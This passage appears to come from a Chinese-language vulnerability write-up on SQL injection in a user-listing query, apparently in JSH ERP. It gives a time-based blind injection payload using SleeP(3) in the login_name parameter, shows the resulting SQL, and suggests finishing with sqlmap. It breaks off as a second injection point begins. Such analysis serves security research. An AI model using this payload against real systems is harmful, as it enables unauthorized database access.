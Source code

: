按照该 SQL 语句在 login\_name 构造布尔盲注的 payload：`%'/**/And/**/SleeP(3)--`

[![](assets/1711556055-35a7e8ad7007c5877b79876558663e32.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240201233113-ee9c6600-c116-1.png)

根据响应时间成功得到此处存在 SQL 注入

对应的 SQL 语句：

```plain
SELECT count(user.id) FROM jsh_user user LEFT JOIN jsh_user_business ub ON user.id = ub.key_id LEFT JOIN jsh_orga_user_rel rel ON rel.tenant_id = 63 AND user.id = rel.user_id AND ifnull(rel.delete_flag, '0') != '1' LEFT JOIN jsh_organization org ON org.tenant_id = 63 AND rel.orga_id = org.id AND ifnull(org.org_stcd, '0') != '5' WHERE user.tenant_id = 63 AND 1 = 1 AND ifnull(user.status, '0') NOT IN ('1', '2') AND user.username LIKE '%%' AND SleeP(3)
```

接下来使用 sqlmap 跑就 ok 了，同样在 userName 参数也是一样的问题

### 注入点 2

#### 分析

关注一个没有 like 匹配的

[![](assets/1711556055-4d5a21f806e50d890188ba6051df3d27.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240201233128-f7b3d6d8-c116-1.png)
